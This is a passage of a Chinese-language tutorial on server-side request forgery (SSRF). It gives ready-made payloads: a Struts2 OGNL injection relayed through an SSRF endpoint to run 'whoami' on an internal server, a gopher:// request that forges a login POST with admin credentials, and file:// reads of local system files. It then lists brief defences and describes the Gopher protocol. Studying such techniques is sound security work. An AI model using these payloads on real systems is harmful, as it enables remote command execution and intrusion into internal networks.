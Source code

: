 

以下是针对内网192.168.1.139这台服务器进行攻击，执行命令whoami

```
http://localhost/ssrf.php?url=http://192.168.1.139:8081/${%23context['xwork.MethodAccessor.denyMethodExecution']=false,%23f=%23_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),%23f.setAccessible(true),%23f.set(%23_memberAccess,true),@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream())}.action
```



POST方法就使用：

```
http://localhost/ssrf.php?url=gopher://192.168.1.124:6667/_POST%20%2findex.php%20HTTP%2f1.1%250d%250aHost%3A%20127.0.0.1%3A2233%250d%250aConnection%3A%20close%250d%250aContent-Type%3A%20application%2fx-www-form-urlencoded%250d%250a%250d%250ausername%3Dadmin%26password%3Dpassword
```



#### 请求本地文件

这里的构成可以通过 url参数接收，去尝试请求内网资源

```
url=file:///c:\\windows\\csup.txt
```



```
url=file:////etc/csup.txt
```



#### Redis攻击

这里有必要深入了解gopher协议了：[Gopher协议在SSRF漏洞中的深入研究（附视频讲解） - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/112055947)

跳转至下方：



## 防御措施

- 限制端口为Web端口，访问方式限制为http
- 限制不能访问内网的ip
- 屏蔽返回的详细信息，这样只能盲注，入侵难度上升了



## Gopher协议

一个过时的协议

信息查找系统，在www出现之前，是最主要的信息检索工具，具体使用TCP 70端口

如今已经很少使用了，但却是SSRF漏洞利用中最强大的协议
